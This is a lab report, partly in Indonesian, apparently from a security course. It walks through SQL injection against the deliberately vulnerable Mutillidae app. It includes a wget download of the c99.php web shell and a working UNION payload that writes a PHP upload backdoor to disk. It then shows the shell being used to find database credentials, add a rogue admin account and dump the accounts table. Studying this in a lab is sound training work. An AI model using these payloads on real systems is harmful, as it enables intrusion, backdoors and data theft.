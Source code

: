 # Lesson 11 : SQL Injection Union Exploit #4 (Create PHP Upload Script)

## Download c99.php
1. Open a console terminal
2. Get Rar File
   - Buka terminal, jalankan perintah berikut :
   ```bash
   mkdir -p /root/backdoor
   cd /root/backdoor/
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
   ls -lrt
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/download.png "Home page")
3. Extract Rar File
   - Jalankan perintah berikut pada terminal :
   ```bash
   unrar x stuff.rar
   cat part1.txt part2.txt part3.txt > c99.php
   cp c99.php c99.php.bkp
   ls -lrt
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/extract.png "Home page")
4. Configure and Prepare c99.php
   - Jalankan perintah berikut pada terminal :
   ```bash
   head -1 c99.php
   sed -i '1 s/^.*$/<?php/g' c99.php
   head -1 c99.php
   gzip c99.php
   ls -l
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/configure.png "Home page")

## Navigate to the User Info Page
1. Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")
2. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Inject Upload Form into User Info Page
1. Inspect the View Account Details Button
   - Klik kanan pada Button View Account, kemudian inspect element
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/inpect_button.png "Home page")
2. Change Button Placement
   - Pada bagian text-align udah dari yang semula center menjadi left
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/change_button.png "Home page")
3. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
4. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 550
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/change_name.png "Home page")
5. Backdoor Union SQL Union Injection
   - Pada kolom Textbox **Name** isikan 
   ```bash
   ' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/upload_file.php' -- 
   ```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/union.png "Home page")
6. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/result_union.png "Home page")

## Upload c99.php to Mutillidae
1. Place the following URL in the Address Bar
	- Buka url berikut pada browser 
		http://10.0.1.100/mutillidae/upload_file.php
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/upload_page.png "Home page")
	- Klik tombol **Browse**
	- Cari file c99.php pada folder /root/backdoor
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/browse_file.png "Home page")
	- Klik tombol **Open**
	- Klik tombol **Submit Query**
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/upload_file.png "Home page")

## Using c99:php's to grab database password
1. Server security information
	- Buka url berikut pada browser 
		http://10.0.1.100/mutillidae/c99.php
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/c99_page.png "Home page")
	- Klik link navigasi Sec
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/sec_page.png "Home page")
2. Discover Mutillidae Application Directory
	- Isikan **`pwd`** pada textbox sebelah kiri paling atas
	- Klik Execute
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/sec_pwd.png "Home page")
3. Search php scripts for the string password
	- Isikan **`find /var/www/mutillidae -name "*.inc" | xargs grep -i "db" | grep "="`** pada kalom kedua
	- Klik Execute
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/grep_db.png "Home page")
4. Viewing Password Results
   - Pada textbox pertama akan tampil hasil dari eksekusi command
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/result_grep.png "Home page")

## Using c99:php's to examine pillage the database
1. Connect to SQL
   - Klik link navigasi Sec
   - Isikan pada textbox:
   ```
   Username: **root**
   Password: **saitama**
   Database: **owasp10**
   ```
   - Klik tombol Connect
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/connect_db.png "Home page")
2. Select table accounts
	- Select tabel account pada database owasp10
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/db_result.png "Home page")
3. Insert Record Link
	- Klik link Insert 
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/account_record.png "Home page")
4. Supply New User Information
   - Isikan pada textbox:
   ```
   cid Value: **20**
   username Value: **hacker**
   password Value: **hacker**
   mysignature: **Noob**
   is_admin: **TRUE**
   ```
   - Klik tombol **Confirm**
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/add_user.png "Home page")
5. Insert New User Information
   - Klik tombol **Yes**
  ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/confirm_add.png "Home page")
6. Verify New User Information
   - Scroll kebawah untu melihat hasil
   - Veifikasi jika user hacker sudah dibuat
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/verifikasi_result.png "Home page")
7. Prepare to Dump the Accounts Table
   - Scroll keatas
   - Klik link **Dump**
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/dump_link.png "Home page")
8. Dump the Accounts Table
   - Isikan pada textbox:
   ```
   DB: **owasp10**
   Only tables (explode ";"): **accounts**
   File: **./dump_owasp10_accounts.sql**
   Download Checkbox: [x] **Check it**
   Save to file Checkbox: [x] **Check it**
   ```
   - Klik tombol **Dump**
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/add_dump.png "Home page")
9. Save Accounts Dump File
   - Pilih Save File
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/save_dump.png "Home page")

## Proof of Lab
1. View Result
   - Buka terminal
   - Pindah direktori ke folder Downloads **`cd Downloads`**
   - Jalankan perintah berikut
   ```bash
   grep -i hacker dump_owasp10_accounts.sql
   date
   echo "Hendri F"
   ```
   ![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_11/proof_lab.png "Home page")
